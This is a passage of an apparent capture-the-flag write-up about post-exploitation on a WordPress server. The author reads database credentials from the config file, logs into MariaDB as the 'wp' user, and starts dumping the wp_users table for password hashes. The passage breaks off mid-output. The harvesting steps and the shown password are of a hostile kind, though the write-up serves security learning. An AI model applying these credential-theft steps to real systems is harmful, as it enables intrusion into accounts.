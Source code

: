 ```bash
define( 'DB_USER', 'wp' );

/** MySQL database password */
define( 'DB_PASSWORD', 'fiFtDDV9LYe8Ti' );
```
From here we can attempt to login to the mysql running on localhost using the password `fiFtDDV9LYe8Ti`
```bash
www-data@blog:/var/www/html$ mysql -h 127.0.0.1 -u wp -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 14082
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
We then pull the databases and extract the tables from database wp and the table wp_users, we successfully find a password hash.
MariaDB [(none)]> show DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wp                 |
+--------------------+
4 rows in set (0.001 sec)

MariaDB [(none)]> use wp;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wp]> show tables;
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.000 sec)

We then pull the password with:
MariaDB [wp]> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email       | user_url         |
```